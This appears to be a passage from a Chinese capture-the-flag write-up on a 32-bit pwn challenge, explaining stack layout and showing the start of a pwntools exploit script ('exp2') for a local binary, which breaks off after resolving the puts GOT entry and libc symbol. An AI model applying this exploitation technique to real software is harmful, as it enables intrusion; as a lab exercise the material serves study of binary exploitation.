 [![](assets/1701612281-9d0641ed92afd99830907cd78794ab6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223928-e6442fb8-2578-1.png)

esp 中存储着 main() 的 ebp，我们如果要写入函数以及参数并且调用，可以写入 esp+4,esp-4，也就是前后各一位，这样的话预留返回地址就是 main(),栈会立即进行调用

**exp2:**

```bash
from pwn import *
p = process('./pwn3')
context.log_level='debug'
context.arch='i386'

elf = ELF('./pwn3')
libc = ELF('./libc.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def put(x,y):
    sl('put')
    ru(":")
    sl(x)
    ru(":")
    sl(y)
def get(z):
    sl('get')
    ru(":")
    sl(z)
r
sla(":",'rxraclhm')
pause()
ru("ftp>")
puts=elf.got['puts']
puts_libc=libc.symbols['puts']
```